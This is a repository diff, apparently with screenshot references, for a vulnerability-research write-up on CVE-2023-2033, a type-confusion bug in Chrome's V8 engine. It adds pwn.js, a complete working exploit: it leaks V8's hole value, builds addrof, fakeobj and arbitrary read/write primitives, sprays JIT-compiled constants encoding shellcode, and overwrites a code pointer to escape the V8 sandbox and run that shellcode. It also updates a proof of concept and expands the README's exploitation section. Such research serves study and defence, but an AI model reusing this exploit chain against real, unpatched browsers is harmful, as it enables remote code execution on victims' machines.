

CVE-2023-2033

Changed region(s): [[0.0, 0.0, 1.0, 0.7432], [0.0, 0.8324, 0.9918, 1.0]]

diff --git a/CVE-2023-2033/pwn.js b/CVE-2023-2033/pwn.js
@@ -1,0 +1,170 @@
+// flags: --allow-natives-syntax
+
+let fi_buf = new ArrayBuffer(8);
+let f_buf = new Float64Array(fi_buf);
+let i_buf = new BigUint64Array(fi_buf);
+
+// convert float to bigint
+function ftoi(f) {
+    f_buf[0] = f;
+    return i_buf[0];
+}
+
+// convert bigint to float
+function itof(i) {
+    i_buf[0] = i;
+    return f_buf[0];
+}
+
+// convert int to hex string
+function hex(i) {
+    return `0x${i.toString(16)}`;
+}
+
+
+// jit spraying
+
+function jit() {
+    return [
+        1.9711828996832522e-246, // 0xceb909090c03148
+        1.971112871410787e-246, // 0xceb9050636cb866
+        1.9711314215434657e-246, // 0xceb906163782fb8
+        1.97118242283721e-246, // 0xceb909020e0c148
+        1.9616425752617766e-246, // 0xceb6e69622f0548
+        1.9711832695973408e-246, // 0xceb9090e7894850
+        1.971182900582351e-246, // 0xceb909090f63148
+        1.9711831018987653e-246, // 0xceb9090c0314890
+        1.971112653196158e-246, // 0xceb9050303ab866
+        1.9710920957760286e-246, // 0xceb903d59414cb8
+        1.9710610293119303e-246, // 0xceb9020e0c14890
+        1.9532382542574046e-246, // 0xceb505349440548
+        1.971183239760578e-246, // 0xceb9090e0894850
+        1.9711128050518315e-246, // 0xceb905053db3148
+        1.971182900255075e-246, // 0xceb909090e28948
+        1.9710902863710406e-246, // 0xceb903bb0c03148
+        -6.828527034370483e-229 // 0x909090909090050f
+    ];
+}
+
+console.log("[+] JIT spraying...");
+for (let i = 0; i < 0x30000; i++) { jit(); } // compile via turbofan
+
+
+// leak hole
+
+function f() { return stack; }
+
+Error.prepareStackTrace = () => {
+    // delete accessor and redefine as normal property
+    // because accessor is not handled by JSNativeContextSpecialization::ReduceGlobalAccess()
+    delete stack;
+    Object.defineProperty(globalThis, "stack", { value: 1, writable: true }); // configurable is false (default)
+    stack = {}; // cell_type == kMutable
+
+    for (let i = 0; i < 0x10000; i++) { f(); } // compile via turbofan => code dependency is not installed
+}
+
+Error.captureStackTrace(globalThis);
+Object.defineProperty(globalThis, "stack", { value: 1, configurable: true });
+
+delete stack;
+const the = { hole: f() }; // type of the.hole is HeapConstant
+
+
+let float_arr;
+let obj_arr;
+
+// get (compressed) address of `obj`
+function addrof(obj, bool = true) {
+    let idx = Number(bool ? the.hole : -1); // real: NaN / optimized: -1
+    idx |= 0; // real: 0 / optimized: -1
+    idx += 1; // real: 1 / optimized: 0
+
+    float_arr = [1.1];
+    obj_arr = [obj];
+
+    return ftoi(float_arr.at(idx * 4)) & 0xffffffffn;
+}
+let tmp_obj = {};
+for (let i = 0; i < 0x30000; i++) { addrof(tmp_obj); } // compile via turbofan
+
+// get fake object at `addr`
+function fakeobj(addr, bool = true) {
+    let idx = Number(bool ? the.hole : -1); // real: NaN / optimized: -1
+    idx |= 0; // real: 0 / optimized: -1
+    idx += 1; // real: 1 / optimized: 0
+
+    obj_arr = [tmp_obj];
+    float_arr = [itof(addr)];
+
+    return obj_arr.at(idx * 7);
+}
+let tmp_obj_addr = addrof(tmp_obj);
+for (let i = 0; i < 0x30000; i++) { fakeobj(tmp_obj_addr); } // compile via turbofan
+
+
+let leak_arr;
+let float_arr_map;
+let empty_properties;
+
+// leak some values
+function leak(bool = true) {
+    let idx = Number(bool ? the.hole : -1); // real: NaN / optimized: -1
+    idx |= 0; // real: 0 / optimized: -1
+    idx += 1; // real: 1 / optimized: 0
+
+    leak_arr = [1.1];
+    float_arr = [2.2];
+
+    float_arr_map = ftoi(leak_arr.at(idx * 5)) & 0xffffffffn; // PACKED_DOUBLE_ELEMENTS
+    empty_properties = ftoi(leak_arr.at(idx * 5)) >> 32n; // JSArray[0]
+}
+for (let i = 0; i < 0x30000; i++) { leak(); } // compile via turbofan
+console.log(`[+] float_arr_map == ${hex(float_arr_map)}`);
+console.log(`[+] empty_properties == ${hex(empty_properties)}`);
+
+// read 8-byte from `addr` in sandbox
+function read8(addr) {
+    let fake_arr_struct = [1.1, 2.2];
+    fake_arr_struct[0] = itof(float_arr_map + (empty_properties << 32n)); // map | properties
+    fake_arr_struct[1] = itof(addr - 0x8n + (0x2n << 32n)); // elements | length
+
+    let fake_arr_struct_addr = addrof(fake_arr_struct);
+    let fake_arr_addr = fake_arr_struct_addr - 0x10n;
+    let fake_arr = fakeobj(fake_arr_addr);
+
+    return ftoi(fake_arr[0]);
+}
+
+// write 8-byte `value` to `addr` in sandbox
+function write8(addr, value) {
+    let fake_arr_struct = [1.1, 2.2];
+    fake_arr_struct[0] = itof(float_arr_map + (empty_properties << 32n)); // map | properties
+    fake_arr_struct[1] = itof(addr - 0x8n + (0x2n << 32n)); // elements | length
+
+    let fake_arr_struct_addr = addrof(fake_arr_struct);
+    let fake_arr_addr = fake_arr_struct_addr - 0x10n;
+    let fake_arr = fakeobj(fake_arr_addr);
+
+    fake_arr[0] = itof(value);
+}
+
+
+// escape v8 sandbox
+
+let jit_addr = addrof(jit);
+console.log(`[+] jit_addr == ${hex(jit_addr)}`);
+
+let code_addr = read8(jit_addr + 0x18n) & 0xffffffffn;
+console.log(`[+] code_addr == ${hex(code_addr)}`);
+
+let instruction_start = read8(code_addr + 0x10n);
+console.log(`[+] instruction_start == ${hex(instruction_start)}`);
+let shellcode_addr = instruction_start + 0x5cn;
+
+// overwrite instruction_start with address of shellcode
+write8(code_addr + 0x10n, shellcode_addr);
+
+// execute shellcode
+console.log("[+] Executing shellcode...");
+jit();

diff --git a/CVE-2023-2033/poc.js b/CVE-2023-2033/poc.js
@@ -1,3 +1,5 @@
+// flags: --allow-natives-syntax
+
 function f() { return stack; }
 
 Error.prepareStackTrace = () => {
@@ -14,6 +16,6 @@ Error.captureStackTrace(globalThis);
 Object.defineProperty(globalThis, "stack", { value: 1, configurable: true });
 
 delete stack;
-let the_hole = f(); // not deoptimized => leak the_hole
+const hole = f(); // not deoptimized => leak hole
 
-% DebugPrint(the_hole);
+% DebugPrint(hole);

diff --git a/CVE-2023-2033/README.md b/CVE-2023-2033/README.md
@@ -1,13 +1,13 @@
 # CVE-2023-2033 (Type Confusion in V8)
 
-In this post, I will analyze CVE-2023-2033, in-the-wild bug in V8. Using this bug, we can leak `the_hole` object and exploit it for getting RCE.
+In this post, I will analyze and exploit CVE-2023-2033, an in-the-wild type confusion bug in V8. Using this bug, we can leak `hole` object and exploit it to get RCE.
 
 ## Setup
 
-- Ubuntu 22.04.5 LTS
+- Ubuntu 22.04.5 LTS (WSL)
 - [f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c](https://chromium.googlesource.com/v8/v8/+/f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c) (Apr 12th, 2023)
 
-Run [`setup.zsh`](./setup.zsh) in your working directory (`zsh` is required).
+Run [`setup.zsh`](./setup.zsh) in your working directory.
 
 ## Analysis
 
@@ -208,10 +208,17 @@ We set `configurable` descriptor of global property `stack` from `false` to `tru
 
 ![](img/23.png)
 
-
 ### Patch
 
 > [[runtime] Make Error.captureStackTrace() a no-op for global object](https://chromium.googlesource.com/v8/v8/+/fa81078cca6964def7a3833704e0dba7b05065d8) (Apr 12th, 2023)
+
+## Exploitation
+
+> [Exploiting V8 Hole via Number Constructor (Chromium < 115.0.5790.98)](https://aaronsjcho.github.io/Exploiting-V8-Hole-via-Number-Constructor/)
+
+You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.
+
+![](img/24.png)
 
 ## References
 
